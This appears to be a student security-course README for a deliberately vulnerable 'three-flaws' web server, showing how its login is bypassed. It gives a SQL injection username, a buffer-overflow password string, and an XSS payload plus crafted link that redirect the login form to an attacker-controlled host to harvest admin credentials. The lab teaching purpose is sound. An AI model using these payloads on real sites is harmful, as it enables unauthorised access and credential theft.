 # Computer system security - Project 2  : the 3-flaws webserver
**Group #** : 5

**Members** :
- Laurent MINY
- Etienne DE JAMBLINNE DE MEUX

The whole project was made and tested on a Debian Jessie 8 x64 with Xampp installed and Firefox ESR 45.7.0

## Injection SQL
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The injection can be done by entering any password and the following username :
```
admin' or '1'='1' #
```

## Buffer Overflow
**User way** - The user enter the 'admin' username and enter his password 'thepassword' to login

**Hacker way** - The buffer overflow is done by rewriting the variable 'int pwd_matches' with garbage. And everything different over value 0 means "Password valid". So we can enter the username 'admin' (guessed) and the following as password (29 * 'h') :
```
hhhhhhhhhhhhhhhhhhhhhhhhhhhhh
```

**Remarks** :
- the file 'check-login' and 'buff3r-ov3rfl0w' must have the correct rights
- the file 'buff3r-ov3rfl0w' has to be compile for your system (more info in the source file 'buff3r-ov3rfl0w.c'). The one supplied is compiled on Debian Jessie 8 x64.

## XSS

The XSS (Cross-site scripting) is done by entering as username the following javascript (and any password) :

```javascript
<script>
document.addEventListener("DOMContentLoaded", function(event) { // To wait for DOM to be ready
  document.forms["form-login"].action="http://www.attacker-website.com"; // To send to login form to the website of an attacker.
});
</script>
```

If the attacker website is lminy.alwaysdata.net, with a little bit of social engineering, he could send an email to the admin my saying that there is a problem on [this page](http://localhost/homework2/?username=%3Cscript%3Edocument.addEventListener%28%22DOMContentLoaded%22%2Cfunction%28a%29{document.forms[%22form-login%22].action%3D%22http%3A%2F%2Flminy.alwaysdata.net%22}%29%3B%3C%2Fscript%3E&password=pwd). The user is tricked to enter again his login and password and the evil is done!

The attacker can then check its apache logs to know the username & password of the admin :

[logo]: https://github.com/lminy/ucl-project2/blob/master/lminy.alwaysdata.net.log.png "Apache logs"
